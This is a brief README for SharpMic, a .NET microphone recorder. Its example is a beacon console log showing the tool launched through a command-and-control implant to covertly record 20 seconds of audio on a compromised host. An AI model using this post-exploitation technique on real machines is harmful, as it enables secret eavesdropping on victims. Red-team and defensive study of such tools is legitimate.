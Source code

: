 # SharpMic
.NET sound recorder

TODO:
- Exception handling
- Choose input source
- MP3 compression

```
beacon> execute-assembly c:\temp\SharpMic.exe c:\temp\test001.wav 20
[*] Tasked beacon to run .NET program: SharpMic.exe c:\temp\test001.wav 20
[+] host called home, sent: 406103 bytes
[+] received output:
[+] Recording started

[+] received output:
[+] Waiting 20 seconds...

[+] received output:
[+] Recording stopped
```
